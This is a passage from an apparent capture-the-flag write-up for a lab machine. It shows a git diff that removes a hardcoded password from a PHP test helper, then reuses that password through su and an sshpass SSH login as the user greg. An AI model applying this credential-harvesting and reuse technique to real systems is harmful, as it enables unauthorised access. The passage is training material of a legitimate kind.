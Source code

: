     +    }
    +}



This file is mean to test logging into the API, and it's using hardcoded
credentials for greg. In the third commit, the creds are removed:



    oxdf@hacky$ git diff 36b4287 f7c903a tests/Feature/Helper.php
    diff --git a/tests/Feature/Helper.php b/tests/Feature/Helper.php
    index f57e37b..0586d51 100644
    --- a/tests/Feature/Helper.php
    +++ b/tests/Feature/Helper.php
    @@ -8,12 +8,14 @@ class Helper extends TestCase
     {
         public static function getToken($test, $admin = false) {
             if($admin) {
    -            $res = $test->postJson('/api/v1/auth/login', ['email' => 'greg@intentions.htb', 'password' => 'Gr3g1sTh3B3stDev3l0per!1998!']);
    -            return $res->headers->get('Authorization');
    +            $user = User::factory()->admin()->create();
             } 
             else {
    -            $res = $test->postJson('/api/v1/auth/login', ['email' => 'greg_user@intentions.htb', 'password' => 'Gr3g1sTh3B3stDev3l0per!1998!']);
    -            return $res->headers->get('Authorization');
    +            $user = User::factory()->create();
             }
    +        
    +        $token = Auth::login($user);
    +        $user->delete();
    +        return $token;
         }
     }



### su / SSH

I noted earlier that greg was a user on this box with a home directory.
These creds work for grep with `su`:



    www-data@intentions:~.md/intentions$ su - greg
    Password: 
    $ 



And over SSH:



    oxdf@hacky$ sshpass -p 'Gr3g1sTh3B3stDev3l0per!1998!' ssh greg@10.10.11.220
    Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-76-generic x86_64)
    ...[snip]...
    $ 
